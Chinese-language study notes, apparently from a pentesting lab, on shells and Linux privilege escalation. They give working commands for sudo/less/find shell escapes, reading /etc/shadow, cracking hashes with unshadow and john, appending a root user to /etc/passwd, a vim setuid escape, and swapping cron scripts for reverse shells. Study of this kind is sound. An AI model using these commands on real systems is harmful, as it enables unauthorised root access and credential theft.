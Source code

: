 由于这几章实验内容比较多，就不在这展示了

# Shell and Web Shell

比较简单, 主要是netcat和matesploit的使用

不用msfvenom生成shellcode payload也可以看在线网站：https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

包含了非常多的reverse shell payload

# Linux 权限提升

由于东西太多，只记录点重要的

    uname -a 信息收集
    /proc/version 信息收集
    ps -aux 进程表
    env 环境变量
    sudo -l 查看能sudo的命令
    find
    find ... 2>/dev/null 将错误丢垃圾桶，其他命令适用


### 内核漏洞利用

通过信息收集的系统内核版本，寻找存在的漏洞

在线网站: https://www.linuxkernelcves.com/

使用可用exp或者matesploit利用

### sudo -l

sudo允许我们以比当前用户更高的权限运行某个命令

如果sudo运行当前用户运行如：find、less、base64....等等

则可以尝试提权：

    sudo find . -exec /bin/bash \;  -exec 执行命令

.

    sudo less /etc/passwd 回车
    !/bin/bash 回车

.

    base64用于读取权限高的文件

# https://gtfobins.github.io/ 命令列表


### SUID

文件可以具有读取、写入和执行权限。这些权限授予用户的权限级别。这随着 SUID（设置用户标识）和 SGID（设置组标识）而更改。它们允许分别以文件所有者或组所有者的权限级别执行文件。

    find / -type f -perm -04000 2>/dev/null    查看设有suid的文件

/etc/shadow需要root才能读写, 可以想办法利用sudo或具有suid的文件读写命令尝试读取，如base64

利用unshadow配合john可以尝试爆破用户密码:

    unshadow </etc/passwd> </etc/shadow> > <OutFileName>

将上述输出的文件利用john暴力破解

    john --wordlist <比如rockyou.txt> <上述输出的文件名>


此外，如果有权限，还可以直接向/etc/passwd/添加root权限的用户

使用openssl创建加盐hash密码:

    openssl passwd -1 -salt h4ck <password>

然后将结果插入：

    <username>:<上述结果>:0:0:root:/root:/bin/bash

    将该条信息追加进/etc/passwd


### Capabilities

系统管理员可用于提高进程或二进制文件权限级别的另一种方法是“Capabilities”. Capabilities 帮助在更精细的级别管理权限。例如，如果 SOC 分析师需要使用需要启动套接字连接的工具，则普通用户将无法执行此操作。如果系统管理员不想授予此用户更高的权限，他们可以更改Capabilities的二进制文件。因此，二进制文件将在不需要更高权限用户的情况下完成其任务

    getcap -r / 2>/dev/null

例如如果vim在cap里面，则可以尝试提权：

    ./vim -c ':py3 import os;os.setuid(0);os.execl("/bin/sh","sh","-c","reset; exec sh")'

注意程序路径！

<pre>karen@ip-10-10-141-89:~$ pwd
/home/karen
karen@ip-10-10-141-89:~$ getcap -r / 2&gt;/dev/null |grep vim
/home/karen/vim = cap_setuid+ep
karen@ip-10-10-141-89:~$ 
</pre>


### Cron Jobs

Cron 作业用于在特定时间运行脚本或二进制文件。默认情况下，它们以其所有者而不是当前用户的权限运行。虽然正确配置的 cron 作业本身并不容易受到攻击，但在某些情况下它们可以提供权限升级向量。
这个想法很简单;如果有一个以 root 权限运行的计划任务，并且我们可以更改将要运行的脚本，那么我们的脚本将以 root 权限运行。

Cron 作业配置存储为 crontabs（cron 表），以查看任务下次运行的时间和日期。

系统上的每个用户都有自己的 crontab 文件，无论他们是否登录，都可以运行特定任务。如您所料，我们的目标是找到一个由 root 设置的 cron 作业，并让它运行我们的脚本，最好是 shell。

CTF 机器可以每分钟或每 5 分钟运行一次 cron 作业，但您更经常会在渗透测试活动中看到每天、每周或每月运行的任务。

    /etc/crontab


可以尝试修改具有高权限的的crontab运行的脚本文件，可以改成reverse shell，我们这边就可以监听,getshell

Crontab 总是值得检查的，因为它有时会导致简单的权限升级向量。以下情况在没有特定网络安全成熟度级别的公司中并不少见：

    系统管理员需要定期运行脚本。

    他们创建一个 cron 作业来执行此操作

    一段时间后，脚本变得无用，他们将其删除

    他们不清理相关的 cron 作业

    此更改管理问题会导致利用 cron 作业的潜在漏洞利用。

如果crontab中任务还存在，但执行的脚本文件已经不存在了，我们可以尝试在crontab中指定的目录创建一个自定义的脚本文件 如 反向shell，这样我们的脚本将会被定时运行

